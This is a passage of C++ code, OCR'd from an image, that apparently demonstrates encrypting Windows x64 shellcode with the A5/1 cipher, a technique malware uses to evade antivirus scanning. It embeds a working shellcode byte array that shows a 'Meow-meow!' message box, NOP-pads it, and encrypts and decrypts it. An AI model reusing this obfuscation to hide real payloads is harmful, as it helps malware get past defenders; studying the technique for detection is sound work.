 ```cpp
      R3 = (R3 << 1) | ((R2 >> 10) & 1);
    }
    out[i] = cipher[i] ^ key_byte;
  }
}

int main() {
  unsigned char key[] = {0x6d, 0x65, 0x6f, 0x77, 0x6d, 0x65, 0x6f, 0x77};
  unsigned char message[] = { 0xfc, 0x48, 0x81, 0xe4, 0xf0, 0xff, 0xff, 0xff, 0xe8, 0xd0, 0x0, 0x0, 0x0, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52, 0x60, 0x3e, 0x48, 0x8b, 0x52, 0x18, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e, 0x48, 0x8b, 0x72, 0x50, 0x3e, 0x48, 0xf, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x2, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e, 0x8b, 0x42, 0x3c, 0x48, 0x1, 0xd0, 0x3e, 0x8b, 0x80, 0x88, 0x0, 0x0, 0x0, 0x48, 0x85, 0xc0, 0x74, 0x6f, 0x48, 0x1, 0xd0, 0x50, 0x3e, 0x8b, 0x48, 0x18, 0x3e, 0x44, 0x8b, 0x40, 0x20, 0x49, 0x1, 0xd0, 0xe3, 0x5c, 0x48, 0xff, 0xc9, 0x3e, 0x41, 0x8b, 0x34, 0x88, 0x48, 0x1, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0x38, 0xe0, 0x75, 0xf1, 0x3e, 0x4c, 0x3, 0x4c, 0x24, 0x8, 0x45, 0x39, 0xd1, 0x75, 0xd6, 0x58, 0x3e, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x1, 0xd0, 0x66, 0x3e, 0x41, 0x8b, 0xc, 0x48, 0x3e, 0x44, 0x8b, 0x40, 0x1c, 0x49, 0x1, 0xd0, 0x3e, 0x41, 0x8b, 0x4, 0x88, 0x48, 0x1, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41, 0x59, 0x5a, 0x3e, 0x48, 0x8b, 0x12, 0xe9, 0x49, 0xff, 0xff, 0xff, 0x5d, 0x49, 0xc7, 0xc1, 0x0, 0x0, 0x0, 0x0, 0x3e, 0x48, 0x8d, 0x95, 0xfe, 0x0, 0x0, 0x0, 0x3e, 0x4c, 0x8d, 0x85, 0x9, 0x1, 0x0, 0x0, 0x48, 0x31, 0xc9, 0x41, 0xba, 0x45, 0x83, 0x56, 0x7, 0xff, 0xd5, 0x48, 0x31, 0xc9, 0x41, 0xba, 0xf0, 0xb5, 0xa2, 0x56, 0xff, 0xd5, 0x4d, 0x65, 0x6f, 0x77, 0x2d, 0x6d, 0x65, 0x6f, 0x77, 0x21, 0x0, 0x3d, 0x5e, 0x2e, 0x2e, 0x5e, 0x3d, 0x0 };
  int key_len = sizeof(key);

  int my_payload_len = sizeof(message);
  int pad_len = my_payload_len + (8 - my_payload_len % 8) % 8;

  unsigned char padded[pad_len];
  // memset(padded, 0x90, pad_len);
  // memcpy(padded, message, my_payload_len);

  memcpy(padded, message, my_payload_len);
  memset(padded + my_payload_len, 0x90, pad_len - my_payload_len);

  printf("\noriginal shellcode: \n");
  for (int i = 0; i < sizeof(message); i++) {
    printf("%02x ", message[i]);
  }
  printf("\n\n");

  printf("\npadded message: \n");
  for (int i = 0; i < sizeof(padded); i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  unsigned char encrypted[pad_len];
  a5_1_encrypt(key, key_len, padded, pad_len, encrypted);

  printf("\nencrypted message: \n");
  for (int i = 0; i < pad_len; i++) {
    printf("%02x ", encrypted[i]);
  }
  printf("\n\n");

  unsigned char decrypted[pad_len];
  a5_1_decrypt(key, key_len, encrypted, pad_len, decrypted);

  printf("\ndecrypted message:\n");
```